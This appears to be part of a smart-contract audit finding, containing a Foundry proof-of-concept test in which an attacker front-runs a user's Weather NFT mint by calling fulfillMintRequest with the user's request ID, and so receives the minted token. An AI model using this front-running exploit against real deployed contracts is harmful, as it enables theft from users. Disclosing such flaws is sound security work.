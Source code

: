 ```solidity
function test_FulfillMintRequest_CanBeHijacked() public {
    // Set up parameters for minting a Weather NFT
    string memory pincode = "125001";
    string memory isoCode = "IN";
    bool registerKeeper = true;
    uint256 heartbeat = 12 hours;
    uint256 initLinkDeposit = 5e18;

    // The expected tokenId for the next minted NFT
    uint256 tokenId = weatherNft.s_tokenCounter();

    // Step 1: Simulate a legitimate user initiating a mint request
    vm.startPrank(user);
    linkToken.approve(address(weatherNft), initLinkDeposit);
    vm.recordLogs();
    weatherNft.requestMintWeatherNFT{value: weatherNft.s_currentMintPrice()}(
        pincode, isoCode, registerKeeper, heartbeat, initLinkDeposit
    );
    vm.stopPrank();

    // Step 2: Extract the requestId from the emitted event logs
    Vm.Log[] memory logs = vm.getRecordedLogs();
    bytes32 reqId;
    for (uint256 i; i < logs.length; i++) {
        if (logs[i].topics[0] == keccak256("WeatherNFTMintRequestSent(address,string,string,bytes32)")) {
            (,,, reqId) = abi.decode(logs[i].data, (address, string, string, bytes32));
            break;
        }
    }

    // Step 3: Simulate Chainlink oracle fulfillment (weather data arrives)
    vm.prank(functionsRouter);
    bytes memory weatherResponse = abi.encode(WeatherNftStore.Weather.RAINY);
    weatherNft.handleOracleFulfillment(reqId, weatherResponse, "");

    // Step 4: Attacker front-runs the legitimate user by calling fulfillMintRequest first
    vm.prank(attacker);
    weatherNft.fulfillMintRequest(reqId);

    // Step 5: The NFT is minted to the attacker, not the original user
    vm.assertEq(weatherNft.ownerOf(tokenId), attacker);
}
```

***

## Tools Used

* Manual Review
